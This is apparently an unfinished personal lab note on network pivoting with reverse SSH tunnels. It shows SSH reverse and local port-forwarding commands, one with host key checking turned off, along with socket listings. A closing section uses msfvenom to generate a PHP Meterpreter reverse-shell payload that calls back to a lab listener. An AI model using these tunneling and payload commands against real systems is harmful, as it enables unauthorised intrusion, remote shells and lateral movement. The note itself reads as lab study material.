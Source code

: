 ### 2.1 - Reverse SSH Tunneling

TODO: Make a network topology diagram to illustrate the pivoting scenario and redo the lab

```
userware@hackware-os:~$ ssh fox@10.0.2.15

fox@ubuntulinux:~$ ssh -NTfCqR 8888:192.168.56.106:80 -o "UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" user@10.0.2.4
```

![[01 - Reverse Port Forwarding.png]]

```
fox@ubuntulinux:~$ ss -antp
State          Recv-Q         Send-Q                 Local Address:Port                    Peer Address:Port          Process
LISTEN         0              128                          0.0.0.0:22                           0.0.0.0:*
LISTEN         0              128                          0.0.0.0:8888                         0.0.0.0:*
ESTAB          0              0                           10.0.2.4:42586                      10.0.2.15:22             users:(("ssh",pid=5282,fd=3))
ESTAB          0              0                           10.0.2.4:22                         10.0.2.15:44498
LISTEN         0              128                             [::]:22                              [::]:*
LISTEN         0              128                             [::]:8888                            [::]:*
```

Grab the port using [[03 - Local Port Forwarding|local port forwarding]] method. Then navigate through the web browser.

```
userware@hackware-os:~$ ssh -L 8888:127.0.0.1:8888 fox@10.0.2.15
```

### 2.2 - Reverse SSH Tunnel via Reverse Callback Shell

TODO: Make a network topology diagram to illustrate the pivoting scenario and redo the lab

```
userware@hackware-os:~$ ssh fox@10.0.2.15 -NTfCqD 1080 -R 192.168.56.111:4455:127.0.0.1:4445
```

![[01 - Reverse Shell Tunnel.png]]

```
userware@hackware-os:~$ msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.56.111 lport=4455 -f raw -o rsh.php
```

Launch a shell handler in metasploit for incoming sessions.

TODO: Repeat the steps
